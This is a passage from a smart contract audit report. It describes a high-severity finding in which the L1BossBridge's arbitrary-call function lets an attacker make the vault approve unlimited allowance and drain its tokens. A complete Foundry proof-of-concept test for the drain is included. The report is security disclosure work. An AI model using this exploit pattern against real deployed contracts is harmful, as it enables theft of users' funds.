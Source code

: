 1. keep track of a nonce,

2. make the current nonce available to signers,

3. validate the signature using the current nonce,

4. once a nonce has been used, save this to storage such that the same nonce can't be used again.

---

### [H-4] `L1BossBridge::sendToL1` allowing arbitrary calls enables users to call `L1Vault::approveTo` and give themselves infinite allowance of vault funds.

**Description:** The `L1BossBridge` contract includes the `sendToL1` function that, if called with a sugnature by an operator, can execute arbitrary low-level calls to any given target. Because there's no restrictions neither on the target nor the calldata, this call could be used by an attacker to execute sensitive contracts of the bridge. For example, the `L1Vault` contract.

The `L1BossBridge` contract owns the `L1Vault` contract. Therefore, an attacker could submit a call that targets the vault and executes is approveTo function, passing an attacker-controlled address to increase its allowance. This would then allow the attacker to completely drain the vault.

It's worth noting that this attack's likelihood depends on the level of sophistication of the off-chain validations implemented by the operators that approve and sign withdrawals. However, we're rating it as a High severity issue because, according to the available docs, the only validation made by off-chain services is that "<u>*the account submitting the withdrawal has first originated a successful deposit in the L1 part of the bridge*</u>". As the next PoC shows, such validation is not enough to prevent the attack.

**Proof of Concept:** Include the following test in the `L1BossBridge.t.sol` file:

```javascript

function testCanCallVaultApproveFromBridgeAndDrainVault() public {
        address attacker = makeAddr("attacker");

        uint256 vaultInitialBalance = 1000e18;
        deal(address(token), address(vault), vaultInitialBalance);

        // An attacker deposits tokens to L2. We do this under the assumption that the
        // bridge operator needs to see a valid deposit tx to then allow us to request a withdrawal.
        vm.startPrank(attacker);
        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(attacker), address(0), 0);
        tokenBridge.depositTokensToL2(attacker, address(0), 0);

        // Under the assumption that the bridge operator doesn't validate bytes being signed
        bytes memory message = abi.encode(
            address(vault), // target
            0, // value
            abi.encodeCall(
                L1Vault.approveTo,
                (address(attacker), type(uint256).max)));  // data

        (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

        tokenBridge.sendToL1(v, r, s, message);
        assertEq(token.allowance(address(vault), attacker), type(uint256).max);
        token.transferFrom(address(vault), attacker, token.balanceOf(address(vault)));
    }

```
